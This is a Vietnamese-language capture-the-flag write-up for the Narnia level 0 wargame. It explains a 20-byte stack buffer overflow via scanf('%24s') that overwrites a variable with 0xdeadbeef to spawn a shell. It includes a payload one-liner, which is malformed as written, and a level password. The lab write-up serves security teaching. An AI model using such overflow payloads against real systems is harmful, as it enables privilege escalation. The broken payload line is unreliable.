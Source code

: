 # Challenge Binary exploit

* **Category:** PWN
* **Points:** No

## Challenge

Narnia Level 0 → Level 1

## Solution

Source CODE

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

### Phân tích đề

```c
    long val=0x41414141;
    char buf[20];     
```

Ở đây chúng ta thấy hai biến đang được tạo, biến val được khởi tạo thành giá trị hex 0x41414141 và buf là một mảng không được khởi tạo thành bất kỳ giá trị nào, nhưng không gian đã được dành cho 20 phần tử 1 byte. Kiểu dữ liệu “char” trong C được định nghĩa là có độ dài 1 byte, do đó char buf \[20] dự trữ 20 vị trí bộ nhớ 1 byte liên tiếp.

```c
    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
```

Biến val, đã được khởi tạo thành giá trị 0x41414141, chương trình muốn bạn thay đổi bằng cách nào đó thành giá trị 0xdeadbeef để đi đến flag.

```c
  scanf("%24s",&buf);
```

Hàm scanf được sử dụng để nhập dữ liệu của người dùng. % 24s có nghĩa là hàm sẽ chấp nhận một chuỗi ký tự 24 byte (1 char = 1 byte) và lưu trữ chuỗi đó vào biến buf, nhưng nếu bạn nhớ thì buf chỉ được cấp phát 20 byte bộ nhớ. Đây là cách ta sẽ khai thác chương trình.

## Note

Nếu mình ghi đè chính xác vị trí bộ nhớ của biến val để giữ 0xdeadbeef, thì câu lệnh phân nhánh này sẽ cung cấp cho bạn một flag . Nếu không, nó sẽ in “WAY OFF !!!!” và sau đó thoát ra. Đừng thất vọng, không quan trọng bạn ở gần đến mức nào, nó sẽ luôn in ra câu nói này nếu nó không chính xác.

## Ta cần hiểu cách hoạt động Stack khi thực thi Call

Visit https://whiteheart0.medium.com/0x00-basics-of-reverse-engineering-stack-99bebf865359

```python
      Stack main
    |            |
    |  BUFF [20] |
    |     VAL    |
    |------------|
    |------------|
    |   Old EBP  |
    |   RET ADD  |
```

Vì ngăn xếp phát triển từ bộ nhớ cao đến bộ nhớ thấp, val được lưu trữ ở địa chỉ bộ nhớ cao hơn buf , vì val được khai báo đầu tiên trong chương trình.

Vì thử thách này chỉ yêu cầu chúng ta thao tác buf và val.

## Vậy ta sẽ giải quyết ra sao

Theo như trên ta cần ghi đủ 20 bye trên vùng buff cộng thêm thay thế 4 byte của địa chỉ giá trị của biến value cần kiểm tra là 0xdeadbeef là ta sẽ ra win.

## Payload

```python
python -c 'python "A"*20 + '\xef\xbe\xad\xde''.filename
```

```
The flag : efeidiedae
```

Mật khẩu của cấp độ tiếp theo.
